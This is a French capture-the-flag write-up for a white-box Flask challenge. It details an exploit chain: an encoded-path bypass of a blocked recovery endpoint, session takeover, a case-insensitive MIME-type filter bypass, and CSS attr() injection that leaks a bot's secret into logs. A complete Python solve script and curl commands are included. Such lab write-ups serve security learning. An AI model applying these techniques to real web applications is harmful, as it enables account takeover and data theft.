





# E.S.T.H.E.R - Web

### Énoncé

Nos agents ont enfin mis la main sur le code source d'E.S.T.H.E.R (Environnement Sécurisé de Transmission des Hauts Espions du Renseignement). Avec les informations à ta disposition, vole les informations de l'instance que nous avons trouvée. Notre patronne Mme. BRIGNAC en a besoin au plus vite !

### Sources

[esther.zip](esther.zip)

### Résolution

E.S.T.H.E.R était un challenge dit en «white box». Le code source nous était fourni et il appartenait aux participants d'identifier, comprendre et exploiter les vulnérabilités de l'application.

Décompressons l'archive:

```
$ unzip esther.zip 
Archive:  esther.zip
   creating: source/
  inflating: source/Dockerfile.app   
  inflating: source/Dockerfile.bot   
  inflating: source/docker-compose.yml  
   creating: source/website/
   creating: source/website/app/
  inflating: source/website/app/__init__.py  
  inflating: source/website/app/models.py  
   creating: source/website/app/routes/
  inflating: source/website/app/routes/main.py  
  inflating: source/website/app/routes/notes.py  
  inflating: source/website/app/routes/tech.py  
   creating: source/website/app/static/
   creating: source/website/app/static/js/
  inflating: source/website/app/static/js/flash.js  
  inflating: source/website/app/static/js/post.js  
   creating: source/website/app/templates/
  inflating: source/website/app/templates/discussion.html  
  inflating: source/website/app/templates/index.html  
  inflating: source/website/app/templates/note.html  
  inflating: source/website/app/templates/technician.html  
  inflating: source/website/app/utils.py  
  inflating: source/website/app/config.py  
  inflating: source/website/run.py   
  inflating: source/bot.py           
  inflating: source/requirements.txt
```

Intéressons nous d'abord au bot, c'est la partie la plus simple et la plus rapide à review. Ça donnera également le ton du challenge et fixera notre objectif.

Un chromium headless est spawn et, de façon répétée, le navigateur va s'authentifier sur l'application et poster un commentaire sur la page `/discussion`. Le contenu du commentaire n'est rien d'autre que notre cible: le flag du challenge.

Passons à l'application. Il s'agit d'un backend en python qui sert des pages HTML, la stack est la suivante:

- Flask pour le backend et le rendu des templates
- SQLAlchemy & SQLite pour la persistance de la donnée

Explorons l'application, ces fonctionnalités et les différents endpoints. Les routes de l'application sont réparties selon trois fichiers:

`main.py`:

La page d'acceuil liste des albums musicaux et propose un formulaire de recherche.
Accéder à la page d'acceuil via une requête `POST` permet de tenter de s'authentifier en tant qu'«agent» (le bot) ou `tech`, suivant le token envoyé dans le corps de la requête.

```python
@main_bp.route('/', methods=['GET','POST'])
def index():
    if request.method == 'POST':
        q = request.form.get('q','').strip()
        
        if q and q == AGENT_TOKEN:
            session.clear()
            session['role'] = 'agent'
            session['author'] = 'bot'
            return redirect(url_for('main.discussion'))
        
        tech = RandomValue.query.filter_by(key='tech_pass').first()
        if q and tech and q == tech.value:
            session.clear()
            session['role'] = 'tech'
            return redirect(url_for('tech.tech_panel'))
        
        results = [c for c in FAKE_CDS if q.lower() in c['title'].lower() or q.lower() in c['artist'].lower()]
        return render_template('index.html', results=results, q=q)
    
    return render_template('index.html', results=random.sample(FAKE_CDS, 25), q='')
```

Le token de «tech» est stocké en base de données et généré aléatoirement à chaque démarrage de l'application. 
Celui du bot est récupéré via une variable d'environnement:

```python
# app/config.py
AGENT_TOKEN = os.environ.get("AGENT_TOKEN", "supersecrettoken")
```

Dans le même fichier est présent la fameuse route `/discussion` dans laquelle le bot va écrire le flag.
La route est protégée par une permission, et si nous n'avons pas le bon rôle, l'application nous jète.

```python
# app/main.py
@main_bp.route('/discussion')
def discussion():
    if not check_agent_auth(session):
        return abort(403)

    ...

# app/utils.py
def check_agent_auth(req):
    return session.get('role') == 'agent'

```

Examinons quand même le reste de la logique, puisqu'on sent bien à la lecture du code du bot que l'on va devoir, d'une manière ou d'une autre accéder à cette page et lire le flag.
Un thème CSS est récupéré en base de données, s'il existe. Au passage la route fait le ménage dans les messages trop vieux et pour finir génère le rendu de la page en insérent les messages et le thème, s'il y en avait un d'existant.

```python
    ...

    css = CSSStore.query.first()
    now = datetime.utcnow()

    try:
        Message.query.filter(Message.expires_at <= now).delete()
        db.session.commit()
    except Exception:
        db.session.rollback()
    
    messages = Message.query.order_by(Message.created_at.desc()).all()
    return render_template('discussion.html', messages=messages, css=(css.css if css else ''))
```

À ce moment là de la revue de code, on peut commencer à se douter que le CSS va jouer un rôle important dans l'exfiltration du flag.

La partie écriture de message est protégée de manière similaire et ne présente rien de notable pour nous aider à résoudre le challenge.


`tech.py`:

Avec un token de session «tech», l'application donne accès à une page de consultation des logs de l'application.
Celle-ci est protégée de la même manière que les routes précédentes. Les logs et le thème CSS étant récupérés dans la base de données et inséré dans le template:

```python
@tech_bp.route('/tech')
def tech_panel():
    if not check_tech_auth(request):
        return abort(403)
    
    logs = RequestLog.query.order_by(RequestLog.timestamp.desc()).limit(500).all()
    notes = Note.query.order_by(Note.created_at.desc()).limit(100).all()
    css = CSSStore.query.first()

    return render_template('technician.html', logs=logs, notes=notes, css=(css.css if css else ''))
```

Ce fichier déclare également une route `/tech/set_css` permettant de créer le fameux thème et de le stocker en base de données.
Toujours protégée, la route ne nous permet pas d'enregistrer n'importe quoi, c'est même carrément restrictif!

- Le CSS ne doit pas faire plus de 50 caractères de long
- Le CSS ne doit contenir aucun de ces élèments:

```python
@tech_bp.route('/tech/set_css', methods=['POST'])
def tech_set_css():
    if not check_tech_auth(request):
        return abort(403)

    ...
    
    if not is_css_safe(css_text):
        flash('CSS not safe', 'error')
        return redirect(url_for('tech.tech_panel'))

    ...
    
    flash('CSS updated', 'success')
    return redirect(url_for('tech.tech_panel'))

# app/utils.py
def is_css_safe(css_text):
    if len(css_text) > 50:
        return False
    forbidden_substrings = [
        '[', ']', '*', '^', '<', '>', "'", '"', '-', 'val', 'attr', ':', 'if', 'else',
        'javascript:', '{', '}', 'div', 'body', 'html', 'form', 'script', 'img',
        'expression', 'onerror', 'onload', 'set', 'background', 'http'
    ]
    for fs in forbidden_substrings:
        if fs in css_text.lower():
            return False
    return True
```

Dernière route du fichier et non la moindre, `/tech/recovery` permet à l'utilisateur «tech» de récupérer son token d'authentification.
Quelque chose saute aux yeux: aucune permission n'est en place. C'est certes pratique si on égard son token, mais c'est la voie royale pour se faire usurper son compte.

À ce stade, l'exploitation commence donc à prendre forme:

- Usurper le compte «tech»
- Créer un thème CSS permettant d'exfiltrer le flag
- Attendre que le bot visite la page

Toutefois, le filtrage du CSS étant très restrictif, il est probable que ça ne suffise pas en l'état, examinons donc les dernières fonctionnalités de l'application.

`notes.py`:

L'application permet à l'utilisateur «tech» d'ajouter des notes. Permission, base de données et génération du template, rien de nouveau ici, excepté que le contenu de la note est
également filtré:

```python
@notes_bp.route('/tech/add_note', methods=['POST'])
def tech_add_note():
    ...
   
    if not is_note_content_safe(content):
        flash('Unsafe content', 'error')
        return redirect(url_for('tech.tech_panel'))

    ...

    flash('Note added', 'success')
    return redirect(url_for('tech.tech_panel'))

# app/utils.py
def is_note_content_safe(content):
    if len(content) > 60:
        return False
    allowed_chars = set("abcdefghijklmnopqrstuvwxyz:-(){};")
    return all(c in allowed_chars for c in content)
```

Cette fois, il s'agit d'une whitelist plutôt que d'une blacklist. Et si le filtre précédent était plus restrictif, celui-ci
nous permet d'écrire du CSS, si tant est que la payload fasse moins de 60 caractères.
C'est bien joli, mais ce n'est pas le contenu des notes qui est récupéré de la DB pour être passé aux templates en tant que thème.

Il nous faut donc lier le thème CSS à celui d'une note. On aimerait vraiment pouvoir **appeler** le contenu d'une
note depuis le thème CSS, **l'importer**.

Et c'est exactement ce que nous laisse faire la blacklist de la route `/tech/set_css`, bien que très restrictive, elle laisse
passer tous les caractères nécessaire pour déclarer un import CSS syntaxiquement valide.

La chaîne d'exploitation se présente donc comme ceci:

- Usurper le compte «tech» en récupérant son token via le endpoint non protégé `/tech/recovery`
- Créer une note contenant du code CSS permettant d'exfiltrer le flag, code restant à définir
- Créer un thème CSS qui importe la note
- Attendre que le bot visite la page `/discussion` et que notre payload exfiltre le flag.

Dernière route à prendre en compte, et vitale pour notre exploit, `notes/<slug>`, permet de lire les notes.

Fait remarquable, c'est la seule route de l'application qui est «readable» à la fois par l'utilisateur «tech» et par le bot.
Si on avait encore un doute sur la stratégie de résolution du challenge, il est dissipé.

En effet, pour que la page `/discussion` charge correctement le contenu de la note, il faut que l'utilisateur
qui visite ladite page ait les droits pour la consulter !
Si la route `notes/<slug>` n'était accessible qu'au rôle «tech», notre exploit serait tombé à l'eau, un chainon manquant.

Il est temps de mettre en pratique !

#### RAW_URI

Une première difficulté survient lorsque l'on tente de récupérer le token «tech»:

```bash
$ curl http://localhost:5000/tech/recovery
{"error":"forbidden"}
```
La route n'était pourtant pas protégé. Que se passe-t-il ?
Dans la fonction utilitaire qui met en place tout le contexte de l'application, on peut constater ce bout de code:

```python

# app/__init__.py

def create_app():
    ...

    @app.before_request
    def block_recovery_endpoint():
        raw_path = request.environ.get("RAW_URI", request.environ.get("REQUEST_URI"))
        if raw_path == RECOVERY_ENDPOINT:
            return jsonify({"error": "forbidden"}), 403

    ...
```

Aïe. Cet endpoint est purement est simplement bloqué au niveau de l'application.
Si le path demandé est égal à `/tech/recovery`, l'application retourne une erreur 403.

Mais est-ce vraiment le cas ?

En consultant la documentation de Werkzeug sur [l'attribut WSGI `RAW_URI`](https://github.com/pallets/werkzeug/blob/1b00618e787f40dfb21eba29caf8f8be7c8e1d93/docs/wsgi.rst#raw-request-uri-and-path-encoding),
on comprend qu'il s'agit du path de la requête, **avant décodage** de l'URL.
Et c'est précisément cette valeur brute qui est comparée à `RECOVERY_ENDPOINT`.
Autrement dit, tenter d'accéder à `/tech%2frecovery` nous permet de contourner le blocage et de dérober le token «tech»

```bash
$ curl http://localhost:5000/tech%2frecovery
{"recovery_value":"Yn0sa4IwxFUZjI725_Uerg"}
```

Une fois en possession de ce token, on peut s'emparer d'un cookie de session valide et impersonner l'utilisateur «tech».

```bash
$ curl -v http://127.0.0.1:5000/ -d "q=Ivq2w7_CK9EcsUplwuJOEg"
...
< Set-Cookie: session=eyJyb2xlIjoidGVjaCJ9.ak1t_A.zZZ9j2XpB8alngxWYqtK817t-rs; HttpOnly; Path=/
...
```

#### @import

Étape suivante de notre exploit, créer un thème CSS qui importe une ressource distante.

Ici, rien de sorcier, la blacklist est sévère mais le nombre de caractères autorisé est précisement calibré et nous avons tout ce qu'il faut:

```css
@import url(/path/to/note)
```

On teste, et on s'assure que ça fonctionne au chargement de la page `/discussion`:

```bash
$ curl -v http://127.0.0.1:5000/tech/set_css -H "Cookie: session=eyJyb2xlIjoidGVjaCJ9.ak1wcQ.tI52US6207Db-IScolZx4OUYxbU" -d "css=@import url(/plop)"
```



#### RFC 7231

`/plop` c'est bien joli, mais essayons avec un cas concret. On souhaite qu'une payload inoffensive soit executée dans notre navigateur et puisse styler la page `/discussion`. Pour debug, j'ai lancé l'application et supprimée toutes les permissions du code.

```bash
$ curl -L --silent http://127.0.0.1:5000/tech/add_note -d "content=div{background-color:black}" | grep "/notes"
<li><a class="text-blue-600" href="/notes/407d8b211a6946c0">/notes/407d8b211a6946c0</a> — 2026-07-07 21:44:13.648972</li>
$ curl http://127.0.0.1:5000/tech/set_css -d "css=@import url(/notes/407d8b211a6946c0)"
```

Et... ça ne fonctionne pas.




Le thème CSS est bien chargé, l'import déclenchant une requête HTTP vers la note que nous avons créée et, portant le cookie de session, nous recevons bien le contenu.

Pourtant, nous recevons notre CSS wrappé dans du HTML que nous n'avons jamais écrit.

À bien regarder le code de la route `/notes/<slug>`, par défaut, le contenu de la note est passé à un template. C'est ce que nous avons reçu.
Un paramètre existe toutefois pour nous permettre de choisir le MIME type de notre choix. `css` étant blacklisté, il va falloir trouver le moyen
de contourner cette vérification, toute notre chaîne d'exploitation reposant dessus.

```python
@notes_bp.route('/notes/<slug>')
def view_note(slug):
    ...
    
    n = Note.query.filter_by(slug=slug).first_or_404()
    
    fmt = request.args.get('fmt', '')
    banned_formats = ['css', 'csv', 'html', 'calendar', 'javascript', 'js', 'json', 'xml', 'xhtml', 'svg', 'webmanifest', 'wasm']
    if fmt.isalpha() and len(fmt) > 1 and fmt not in banned_formats:
        return n.content, 200, {'Content-Type': f'text/{fmt}; charset=utf-8'}
    
    return render_template('note.html', note=n)
```

D'après la [RFC 7231](https://datatracker.ietf.org/doc/html/rfc7231#section-3.1.1.1), les MIME type sont case-insensitive.
Il nous suffit donc de passer `?fmt=CSS` à notre requête et ça fonctionne !

```bash
$ curl http://127.0.0.1:5000/tech/set_css -d "css=@import url(/notes/407d8b211a6946c0?fmt=CSS)"
```



\o/

#### CSS dark magic

On a presque terminé mais le plus dur reste à venir. Il nous faut maintenant faire tenir une payload d'exfiltration CSS en moins de 60 caractères, avec seulement la syntaxe de base du CSS (pas de joyeusetés à base de ligatures et de scrollbar).

On oublie également de tenter de contacter un domaine sous notre contrôle, les CSP ne le permettent pas. Seules les ressources locales au challenge peuvent être chargées.

On doit donc lire le flag et le stocker quelque part dans l'application où l'on puisse le récupérer.

Une partie de la réponse semble être la page des logs de l'utilisateur «tech». Si on arrive à extraire le flag de la page, à le placer dans une URL chargée par le CSS (en tant qu'image par exemple), cette requête apparaîtra dans les logs et nous pourrons lire le flag.

Reste la question d'extraire celui-ci de la page. Lire le contenu d'un tag en CSS n'est pas possible directement. Cependant, chaque message est à la fois contenu dans une div mais aussi dans un attribut de celle-ci:

```html
<div class="mt-1" checker="aaa">aaa</div>
```

Récupérer un attribut en CSS, c'est tout à fait possible, c'est même le rôle de la fonction builtin `attr()`

L'idée étant maintenant de crafter une payload qui ressemble à ça:

```
div {
    background: url(attr(checker))
}
```

Sauf que ça ne fonctionne pas. Aucune requête ne part à la consultation de la page.

Une rapide recherche nous donne la réponse: pour des raisons évidentes de sécurité, il n'est pas possible de combiner `attr()` et toute autre fonction builtin qui touche à une URL. Toute valeur retournée par `attr()` est **attr-tainted** et [devient inutilisable au moment de la construction de l'URL](https://developer.mozilla.org/en-US/docs/Web/CSS/Reference/Values/attr#limitations_and_security). La moindre CSS injection se transformerait en CSRF.

Damn. On ne se démoralise pas, et on tombe rapidement sur un [receuil de payload](https://book.jorianwoltjer.com/web/client-side/css-injection#one-shot-with-attr) qui nous assure que, si si, depuis peu de temps, c'est [possible dans Chrome](https://developer.chrome.com/blog/advanced-attr?hl=fr). On se rappelle que le bot spawn un Chromium headless et on laisse la dopamine nous envahire.

Fun fact, je n'ai jamais réussi à faire fonctionner la payload via mon Chromium à jour, alors que ça fonctionne parfaitement bien via le Chromium headless du bot.

Le script de résolution:

```python
import requests
from bs4 import BeautifulSoup
from urllib import parse

HOST = "..."

def fetch_recovery_token(session):
    endpoint = "tech%2frecovery"
    url = parse.urljoin(HOST, endpoint)
    res = session.get(url)
    res.raise_for_status()
    token = res.json()["recovery_value"]
    print(f"[+] Successfully fetch tech {token=}")
    return token

def get_tech_cookie_session(session, token):
    res = session.post(HOST, data={"q": token})
    assert res.status_code == 200 and res.url == parse.urljoin(HOST, "/tech")
    print("[+] Successfully break into tech panel")

def add_note(session):
    payload = "div{background:image(attr(checker))}"
    assert len(payload) <= 60, f"Payload too long ({len(payload)=})"
    allowed_chars = set("abcdefghijklmnopqrstuvwxyz:-(){};")
    assert all(c in allowed_chars for c in payload), "Forbidden chars in payload"
    endpoint = "tech/add_note"
    url = parse.urljoin(HOST, endpoint)
    res = session.post(url, {"content": payload})
    soup = BeautifulSoup(res.text, 'html.parser')
    most_recent_note = list(soup.find_all('a'))[0]
    url = most_recent_note.get('href').replace("/notes", "notes")
    print(f"[+] Successfully add note to tech panel: {url=}")
    return url

def set_css_theme(session, note_url):
    payload = f"@import url({note_url}?fmt=CSS)"
    assert len(payload) <= 50, f"Payload too long ({len(payload)=}"
    forbidden_substrings = [
        '[', ']', '*', '^', '<', '>', "'", '"', '-', 'val', 'attr', ':', 'if', 'else',
        'javascript:', '{', '}', 'div', 'body', 'html', 'form', 'script', 'img',
        'expression', 'onerror', 'onload', 'set', 'background', 'http'
    ]
    assert not any(fs in payload.lower() for fs in forbidden_substrings), "Forbidden string in payload"
    endpoint = "tech/set_css"
    url = parse.urljoin(HOST, endpoint)
    res = session.post(url, {"css": payload})
    assert res.status_code == 200 and res.url == parse.urljoin(HOST, "/tech")
    print(f"[+] Successfully set CSS theme")

def fetch_last_log(session):
    endpoint = "tech"
    url = parse.urljoin(HOST, endpoint)
    res = session.get(url)
    soup = BeautifulSoup(res.text, 'html.parser')
    logs = soup.find_all('li')
    for log in logs:
        if "/notes/" in log.text:
            print(log)


def main():
    session = requests.Session()
    recovery_token = fetch_recovery_token(session)
    get_tech_cookie_session(session, recovery_token)
    url = add_note(session)
    set_css_theme(session, url)
    while True:
        fetch_last_log(session)


if __name__ == "__main__":
    main()
```

On s'assure que l'exploit fonctionne en local:

```bash
$ uv run main.py 
[+] Successfully fetch tech token='hTosfL2EomoWC4X26N54uQ'
[+] Successfully break into tech panel
[+] Successfully add note to tech panel: url='notes/e479f07d14224f65'
[+] Successfully set CSS theme
<li class="py-1">[2026-07-06 08:11:26.648588] <strong>GET</strong> /notes/CTF{secret_flag_here}</li>
```

Et on flag:




